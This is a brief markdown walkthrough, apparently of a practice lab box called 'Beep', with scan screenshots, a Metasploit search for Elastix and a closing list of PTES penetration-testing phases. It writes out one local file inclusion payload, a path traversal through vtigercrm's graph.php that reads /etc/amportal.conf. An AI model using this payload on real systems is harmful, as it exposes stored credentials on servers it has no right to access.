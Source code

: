 # Beep
### Nmap scan
![nmap](../../Assets/walktrhough-assets/Beep/2025-02-14.png)

### Port 80
![nmap](../../Assets/walktrhough-assets/Beep/2025-02-14_1.png)

### Metasploit
Searched for the elastix on the metasploit and found a file Inclusion. 
`/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`

![nmap](../../Assets/walktrhough-assets/Beep/2025-02-19.png)



# Following the PTES Framewrok.

1. **Pre-Enagement Interaction**
2. **Intelligence Gathering**
3. **Threat Modeling**
4. **Vulnerability Analysis**
5. **Exploitation**
6. **Post Exploitation**
7. **Reporting**